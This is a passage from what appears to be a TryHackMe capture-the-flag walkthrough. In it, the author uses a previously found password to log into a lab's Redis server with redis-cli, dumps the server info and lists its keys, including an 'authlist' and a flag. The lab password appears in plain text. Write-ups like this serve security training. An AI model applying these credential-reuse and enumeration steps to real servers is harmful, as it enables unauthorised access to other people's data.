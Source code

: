 Right, now we have the client let's try and connect with the password we found before:

```text
┌──(root💀kali)-[~/thm/internal]
└─# redis-cli -h internal.thm -a B65Hx562F@ggAZ@F
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
internal.thm:6379>
```

Excellent, the password worked and we're connected to the redis server. We can use the command **info** to look at the server config:

```text
internal.thm:6379> info
# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9435c3c2879311f3
redis_mode:standalone
os:Linux 4.15.0-135-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:7.4.0
process_id:545
run_id:7cf99b788e4f20af00cd8c34c84d058f8597ffd4
tcp_port:6379
uptime_in_seconds:1562
uptime_in_days:0
hz:10
lru_clock:11364000
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_longest_output_list:0
client_biggest_input_buf:0
blocked_clients:0

<SNIP>

# Keyspace
db0:keys=5,expires=0,avg_ttl=0
```

The output is quite long, but the bit that we are interested in is at the end. Keyspace is a bit like database or a key-value pair. We see there are 5 let's have a look at them:

```text
internal.thm:6379> keys *
1) "authlist"
2) "marketlist"
3) "internal flag"
4) "tmp"
5) "int"
```
